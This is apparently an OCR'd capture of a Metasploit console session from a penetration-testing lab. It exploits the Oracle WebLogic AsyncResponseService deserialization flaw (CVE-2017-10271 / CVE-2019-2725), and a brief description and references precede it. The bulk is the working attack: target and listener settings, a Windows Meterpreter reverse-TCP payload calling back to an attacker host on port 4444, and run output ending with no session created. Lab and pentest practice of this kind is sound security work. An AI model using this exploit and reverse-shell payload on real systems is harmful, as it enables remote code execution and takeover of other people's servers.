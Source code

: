 ```bash
  Weblogic Server T3 interface can send a malicious SOAP request to 
  the interface WLS AsyncResponseService to execute code on the 
  vulnerable host.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2017-10271
  CNVD-C (2019-48814)
  http://www.cnvd.org.cn/webinfo/show/4999
  https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html
  https://twitter.com/F5Labs/status/1120822404568244224

```

```bash
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 192.168.111.80
rhosts => 192.168.111.80
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 192.168.111.128
lhost => 192.168.111.128
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set target Windows
target => Windows
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > options 

Module options (exploit/multi/misc/weblogic_deserialize_asyncresponseservice):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.111.80                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/U
                                                      sing-Metasploit
   RPORT      7001                          yes       The target port (TCP)
   SSL        false                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /_async/AsyncResponseService  yes       URL to AsyncResponseService
   VHOST                                    no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.111.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows


msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[*] Started reverse TCP handler on 192.168.111.128:4444 
[*] Generating payload...
[*] Sending payload...
[*] Exploit completed, but no session was created.

```
